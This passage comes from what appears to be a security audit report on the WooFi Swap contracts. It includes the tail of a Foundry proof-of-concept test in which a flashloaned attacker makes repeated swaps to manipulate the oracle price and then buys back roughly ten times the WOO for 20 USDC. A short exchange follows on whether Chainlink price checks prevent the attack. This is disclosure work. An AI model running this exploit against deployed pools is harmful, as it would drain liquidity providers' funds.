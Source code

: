 ```solidity
        // here, we assume maxGamma and maxNotionalSwap can save us. However, due to how AMM behaves
        // partial swaps in same tx will also work and it will be even more profitable! 
        uint cumulative;
        for (uint i; i < 10; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir, 0, payable(TAPIR), TAPIR);
        }

        // how much we bought and what's the final swap? 
        console.log("USDC bought after swaps", cumulative);
        (price, ) = oracle.woPrice(WOO);
        console.log("Price after swap", price);

        // sell 20 USDC, how much WOO we get? (199779801821639475527975)
        vm.prank(TAPIR);
        uint receivedWOO = router.swap(USDC, WOO, 20 * 1e6, 0, payable(TAPIR), TAPIR);
        console.log("Received WOO", receivedWOO); // 199779801821639475527975 (10x)
        console.log("Total WOO flashloaned", wooAmountForTapir * 10); // 99989999999999999990000

        // attack is succesfull 
        assertGe(receivedWOO, wooAmountForTapir * 10);
    }
```
## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L420-L465
## Tool used

Manual Review

## Recommendation



## Discussion

**fb-alexcq**


This extreme price-deviation case has already been handled by price check (against Chainlink) in our Wooracle's price function.



**mstpr**

@fb-alexcq 
correct, but some tokens like WOO does not have chainlink price feeds in other networks, in that case the attack is feasible
